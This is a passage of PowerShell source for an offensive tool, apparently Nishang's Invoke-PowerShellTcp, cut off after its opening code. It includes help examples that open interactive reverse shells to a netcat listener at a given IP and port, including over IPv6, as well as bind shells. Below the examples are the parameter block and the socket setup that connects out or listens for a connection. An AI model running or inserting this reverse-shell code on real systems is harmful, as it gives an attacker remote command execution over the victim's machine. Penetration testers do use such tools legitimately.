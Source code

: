 ```ps1
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

```